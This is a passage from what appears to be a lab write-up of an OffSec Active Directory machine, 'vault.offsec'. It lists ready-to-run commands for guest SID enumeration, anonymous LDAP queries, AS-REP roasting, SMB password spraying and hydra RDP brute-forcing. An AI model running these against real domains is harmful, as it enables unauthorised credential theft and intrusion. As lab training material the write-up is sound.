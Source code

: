 Nothing do do for now.

### Port 5985 (WinRM)

## Web

## AD Initial Enumeration

### User Enumeration

Unauthenticated

```bash
impacket-lookupsid 'vault.offsec/guest'@vault.offsec -no-pass | grep SidTypeUser | cut -d' ' -f 2 | cut -d'\' -f 2 | tee users
```

![image.png](image%206.png)

### Port 389/3268

```powershell
ldapsearch -x -H ldap://$IP -D '' -w '' -b "DC=vault,DC=offsec"
```

![image.png](image%207.png)

LDAP Anonymous Bind is not enabled.

## Initial Attack Vectors

### AS-REP Roasting

```bash
GetNPUsers.py vault.offsec/ -dc-ip $IP -no-pass -usersfile users
```

![image.png](image%208.png)

### Password Spraying

```bash
sudo nxc smb $IP -u users -p users --continue-on-success
```

![image.png](image%209.png)

### RDP Brute-Forcing

```bash
hydra -t 1 -l anirudh -P users rdp://$IP
```
